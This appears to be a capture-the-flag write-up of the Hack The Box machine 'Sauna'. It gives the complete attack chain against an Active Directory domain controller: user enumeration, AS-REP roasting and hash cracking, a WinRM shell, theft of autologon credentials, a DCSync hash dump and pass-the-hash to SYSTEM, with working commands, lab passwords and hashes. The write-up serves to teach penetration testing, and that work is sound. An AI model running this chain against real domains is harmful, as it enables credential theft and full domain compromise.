




Sauna is a Windows machine rated Easy on HTB.

## Port Scan

`nmap -sC -sV -p- 10.10.10.175`

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-03-31 15:51:36Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
<SNIP>
```

Looking at the scan results, this is probably an Active Directory Domain Controller.

## LDAP Recon

To find out more about this AD domain, let's run the ldap-search NSE script.

`nmap -p 389 --script ldap-search 10.10.10.175`

```
Nmap scan report for EGOTISTICAL-BANK.LOCAL (10.10.10.175)
Host is up (0.22s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search:
|   Context: DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: DC=EGOTISTICAL-BANK,DC=LOCAL
|         fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|_    dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

The results above only show the parts that we are interested in. In particular, we uncovered a user **Hugo Smith**.

## HTTP Recon

The homepage shows the website of Egotistical Bank.



Browsing through the website and ignoring the Loren Ipsum text, we notice:

* Numerous references to roasting, sauna, and kerb (This is the CTF portion hinting at a possible vulnerability with the Kerberos setup.)
* Names of staff we can use to construct a username list.

## Enumerating Kerberos Usernames

If you're new to Keberos, this is an [excellent introduction](https://www.roguelynn.com/words/explain-like-im-5-kerberos/).

### Generating Username List

Let's store the staff names we have gathered so far into `staffnames.txt`.

Next, we can use the staff list to generate possible usernames. [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) is a nifty tool for generating a username list if you're not sure of the naming convention.

`./username-anarchy -i staffnames.txt > usernames.txt`

### Testing Kerberos Authentication Server Response

As the Kerberos replies differently for known and unknown usernames, it's possible to check if a username exists. An [nmap script](https://nmap.org/nsedoc/scripts/krb5-enum-users.html) is available.

`nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='EGOTISTICAL-BANK.LOCAL',userdb='usernames.txt' 10.10.10.175`

```
PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users:
| Discovered Kerberos principals
|     hsmith@EGOTISTICAL-BANK.LOCAL
|     HSmith@EGOTISTICAL-BANK.LOCAL
|     FSmith@EGOTISTICAL-BANK.LOCAL
|_    fsmith@EGOTISTICAL-BANK.LOCAL
```

We have the following Kerberos usernames:

* fsmith
* hsmith

Let's store them into `targetusers.txt`.

## AS-REP Roasting

AS-REP roasting is the process of getting the **Authentication Server to reply** with information that we can crack for credentials.

How it works:

1. User sends a request to the Kerberos Authentication Server (AS) within the Key Distribution Center.
2. As pre-authentication is disabled, the AS will reply with a logon session key and a Ticket-Granting Ticket (TGT) **without checking any credentials**. (Hence, AS-REP.)
3. Both the **logon session key** and the **TGT** are encrypted.
3. In particular, the logon session key is encrypted with a key derived from the **user's password**.
4. With the encrypted logon session key, we can crack for the user's password offline.

Conditions:

* Have a valid username
* Pre-Authentication for user is disabled

### Requesting For Encrypted Ticket From AS

For Linux, [Impacket](https://github.com/SecureAuthCorp/impacket) is one of the go-to tools for pentesting Windows services including Kerberos.

`./GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile targetusers.txt -format john -outputfile hashes.asreproast`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

User hsmith requires Pre-Authentication so we cannot get the TGT and the encrypted logon session key.

There's no error for user fsmith, which means that we have successfully obtained the required information for this user.

(The nmap script above and GetNPUsers use the same mechanism, so technically we could have skipped the separate user enumeration.)

### Cracking The Password

Next, crack the password using John The Ripper.

`john  --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast `

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```

We now have a set of credentials.

* username: fsmith
* password: Thestrokes23

## Getting A Shell

From our port scan, we see that the port 5985 is open. It is the port for WinRM which is a remote management protocol (like SSH) for Windows.

There are several Linux tools for connecting to WinRM, but from my experience, the most reliable one is [evil-winrm](https://github.com/Hackplayers/evil-winrm).

To get a WinRM shell:

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

```
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> cat C:\Users\FSmith\Desktop\user.txt
```

We get **user**.

## Finding The Autologon Password

winPEAS stands for [Windows Privilege Escalation Awesome Scripts](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). It is a fantastic script for finding privilege escalation vectors.

Let's run it to automate initial privilege escalation enumeration.

Evil-winrm offers an easy way to get C# executables into a target machine. To so, we need to modify our initial command to include the folder with the winPEAS binary.

```
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23 -e /folder/withbinary/
*Evil-WinRM* PS C:\Users\FSmith\Documents> Invoke-Binary /folder/withbinary/winPEAS.exe
```

It returns a long output, but the default color highlighting makes it easy to spot the following.

```
[+] Looking for AutoLogon credentials(T1012)
  Some AutoLogon credentials were found!!
  DefaultDomainName             :  EGOTISTICALBANK
  DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
  DefaultPassword               :  Moneymakestheworldgoround!
  ```

You can also find the autologon credentials through a [manual enumeration process](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).

* Autologon information is stored in the HKLM [registry hive](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-hives). A hive includes a logical group of keys, subkeys, and values.
* To retrieve the information, we can use **reg** - [a console registry tool](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query).
* The `query` parameter lists the next tier of subkeys and their entries.

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    <SNIP>
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    <SNIP>
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

## Comparing Active Directory Permissions

Since we've gained access to a new account (svc_loanmgr), it makes sense to find out if it comes with new permissions that we can exploit. 

We need the ActiveDirectory module for the [following commands](https://devblogs.microsoft.com/scripting/use-powershell-to-explore-active-directory-security/), so let's import it.

`Import-Module ActiveDirectory`

* In the command below, the part before `|` gets specific access permissions of objects in the stated domain. 

* It returns many results, so the part after `|` filters the output to show only the permissions of the user we are interested in.

`(Get-Acl "AD:dc=EGOTISTICAL-BANK,dc=LOCAL").access | Where-Object {$_.IdentityReference –eq [System.Security.Principal.WindowsIdentity]::GetCurrent().Name}`



`(Get-Acl "AD:dc=EGOTISTICAL-BANK,dc=LOCAL").access | Where-Object {$_.IdentityReference –eq "EGOTISTICALBANK\svc_loanmgr"}`



Svc_loanmgr appears to have a few interesting permissions. Researching these permissions reveals that they are associated with a DCSync exploit.

## DCSync Attack

Many Active Directory (AD) infrastructure has multiple Domain Controllers. To maintain a consistent environment, you need a way to replicate AD objects for each DC. The replication is done through the DRSUAPI API.

In a DCSync attack, we impersonate a Domain Controller to replicate objects.

### Required Permissions

However, to perform a DCSync attack, the compromised account needs to have these replication permissions:

The “DS-Replication-Get-Changes” extended right
* CN: DS-Replication-Get-Changes
* GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2

The “Replicating Directory Changes All” extended right
* CN: DS-Replication-Get-Changes-All
* GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2

The “Replicating Directory Changes In Filtered Set” extended right (not always needed)
* CN: DS-Replication-Get-Changes-In-Filtered-Set
* GUID: 89e95b76-444d-4c62-991a-0facbeda640c

These are the precise permissions that the svc_loanmgr has. Hence, we can conduct a DCsync attack.

### Dumping Secrets

We can perform a DCsync attack remotely with Impacket's `secretsdump.py`.

`impacket-secretsdump -just-dc EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175`

With the `-just-dc` flag, it tries to get both the NTLM hashes and Kerberos keys.

```
root@kali:~/htb/openadmin# impacket-secretsdump -just-dc EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
<SNIP>
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
<SNIP>
[*] Cleaning up...
```

Now that we have the hashes, we can use them to get SYSTEM access.

## Passing The Hash

From our port scan, we know that we have access to the SMB port, so psexec is an option.

`./psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
<SNIP>
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We are passing the NTLM hashes here. 

You can also use the Kerberos key. But there more details to pay attention to when you authenticate with Kerberos including time sync and using a FQDN.

# Thoughts

This was my first Active Directory box. It spurred me to learn a lot more about Active Directory and Kerberos. 

It is a very educational box for me.

**References**

*Kerberos and AS-REP Roasting*

* https://www.tarlogic.com/en/blog/how-kerberos-works/
* https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#as-rep-roasting
* https://docs.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets
* https://www.tarlogic.com/en/blog/how-to-attack-kerberos/

*Getting A Shell*

* https://hacks.biz/evilwinrm-the-ultimate-winrm-shell-for-pentesting/
* https://eaneatfruit.github.io/2019/08/18/Offensive-Lateral-Movement/

*DCSync*

* https://github.com/backlion/Offensive-Security-OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync.md
* https://pentestlab.blog/tag/dcsync/
